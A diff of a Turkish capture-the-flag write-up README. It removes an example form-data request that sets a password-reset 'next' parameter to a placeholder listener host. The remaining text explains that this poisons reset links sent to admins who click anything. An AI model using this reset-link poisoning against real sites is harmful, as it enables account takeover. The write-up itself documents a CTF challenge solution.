

Before and after one commit to bayraksende/bayraksende2025, a Markdown page: final/IsvicreCakisi/README.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/final/IsvicreCakisi/README.md
+++ b/final/IsvicreCakisi/README.md
@@ -77,22 +77,6 @@ Ve gelen bağlantıdan şifre sıfırlama talebini başarıyla oluşturduğumuzd
 Yani kendimize gönderdiğimiz şifre sıfırlama isteğindeki 'next' alanını değiştirerek kendi e-postamıza gelen sıfırlama bağlantısını modifiye edebiliriz.
 
 
-Örneğin, isteğimizi aşağıdaki gibi düzenlersek:
-
-
-```formdata
-------WebKitFormBoundarym7tRlaLaR4ztC8jN
-Content-Disposition: form-data; name="username"
-
-kullanici_adi
-------WebKitFormBoundarym7tRlaLaR4ztC8jN
-Content-Disposition: form-data; name="next"
-
-http://xxxx.listener/
-------WebKitFormBoundarym7tRlaLaR4ztC8jN--
-```
-
-Verilen adrese yönlendirilecek bir bağlantı gönderilmiş olacak.
 
 
 Soru metni ve duyurulardaki bilgileri hatırlarsak, platform yöneticilerinin kendi e-posta kutularına gelen herhangi bir bağlantıya tıklayacak kadar bilinçsiz oldukları belirtilmişti.
````
